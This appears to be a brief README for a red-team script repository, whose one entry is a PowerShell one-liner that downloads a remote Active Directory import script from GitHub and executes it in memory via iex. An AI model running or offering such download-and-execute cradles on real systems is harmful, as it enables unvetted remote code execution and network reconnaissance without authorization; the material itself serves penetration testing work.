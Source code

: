 # RedTeamStuffs
A collection of Red Team scripts and stuff that have come in handy

Native AD Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
